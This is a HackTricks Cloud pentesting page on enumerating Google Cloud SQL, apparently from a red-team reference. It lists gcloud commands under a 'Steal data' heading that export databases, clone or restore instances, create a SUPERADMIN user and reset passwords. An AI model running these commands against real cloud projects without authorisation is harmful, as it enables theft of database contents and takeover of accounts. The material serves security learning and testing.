 # GCP - SQL Enum

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## [Cloud SQL](https://cloud.google.com/sdk/gcloud/reference/sql/)

Cloud SQL instances are **fully managed, relational MySQL, PostgreSQL** and **SQL Server databases**. Google handles replication, patch management and database management to ensure availability and performance. [Learn more](https://cloud.google.com/sql/docs/).

If you find any of these instances in use with public IP, you could try to **access them from the internet** as they might be miss-configured and accessible.

```bash
# Cloud SQL
gcloud sql instances list
gcloud sql databases list -i <INSTANCE>
gcloud sql databases describe -i <INSTANCE> <DB>
gcloud sql backups list -i <INSTANCE>
gcloud sql backups describe -i <INSTANCE> <DB>

# Steal data
## Export
gcloud sql export sql <DATABASE_INSTANCE> gs://<CLOUD_STORAGE_BUCKET>/cloudsql/export.sql.gz --database <DATABASE_NAME>
## Clone
gcloud instances clone <SOURCE> <DESTINATION>
## Backup
gcloud sql backups restore BACKUP_ID --restore-instance <RESTORE_INSTANCE>
gcloud sql instances clone restore-backup <SOURCE> <DESTINATION>
## Users abuse
gcloud sql users list -i <INSTANCE>
gcloud sql users create SUPERADMIN -i <INSTANCE>
gcloud sql users set-password <USERNAME> -i <INSTANCE> --password <PWD>
```

### Exfiltrate DB data

As an example, you can follow [Google's documentation](https://cloud.google.com/sql/docs/mysql/import-export/exporting) to exfiltrate a Cloud SQL database.

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
